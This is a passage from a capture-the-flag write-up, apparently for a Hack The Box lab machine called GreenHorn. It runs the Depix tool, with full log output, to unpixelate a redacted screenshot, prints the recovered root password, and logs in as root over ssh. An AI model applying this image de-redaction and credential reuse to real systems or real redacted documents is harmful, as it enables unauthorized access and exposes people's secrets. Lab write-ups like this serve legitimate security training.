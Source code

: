 ![pass](12.png)

Now we clone the tool, install the requirements and run it.

```bash
$ python3 depix.py -p pix.png -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o ./pass.png
2024-08-29 15:39:33,164 - Loading pixelated image from pix.png
2024-08-29 15:39:33,185 - Loading search image from images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png
2024-08-29 15:39:33,706 - Finding color rectangles from pixelated space
2024-08-29 15:39:33,707 - Found 252 same color rectangles
2024-08-29 15:39:33,707 - 190 rectangles left after moot filter
2024-08-29 15:39:33,707 - Found 1 different rectangle sizes
2024-08-29 15:39:33,707 - Finding matches in search image
2024-08-29 15:39:33,707 - Scanning 190 blocks with size (5, 5)
2024-08-29 15:39:33,730 - Scanning in searchImage: 0/1674
2024-08-29 15:40:09,890 - Removing blocks with no matches
2024-08-29 15:40:09,891 - Splitting single matches and multiple matches
2024-08-29 15:40:09,894 - [16 straight matches | 174 multiple matches]
2024-08-29 15:40:09,895 - Trying geometrical matches on single-match squares
2024-08-29 15:40:10,115 - [29 straight matches | 161 multiple matches]
2024-08-29 15:40:10,115 - Trying another pass on geometrical matches
2024-08-29 15:40:10,299 - [41 straight matches | 149 multiple matches]
2024-08-29 15:40:10,300 - Writing single match results to output
2024-08-29 15:40:10,300 - Writing average results for multiple matches to output
2024-08-29 15:40:12,424 - Saving output image to: ./pass.png                                                                       
```

We open the image and get this:

![password](13.png)

We got the password `sidefromsidetheothersidesidefromsidetheotherside`

Let's ssh as root.

```bash
$ ssh root@greenhorn.htb
root@greenhorn.htb's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Thu Aug 29 03:42:16 PM UTC 2024

  System load:  0.16              Processes:             235
  Usage of /:   57.6% of 3.45GB   Users logged in:       0
  Memory usage: 13%               IPv4 address for eth0: 10.10.11.25
  Swap usage:   0%


This system is built by the Bento project by Chef Software
More information can be found at https://github.com/chef/bento
Last login: Thu Jul 18 12:55:08 2024 from 10.10.14.41
root@greenhorn:~# id
uid=0(root) gid=0(root) groups=0(root)
```

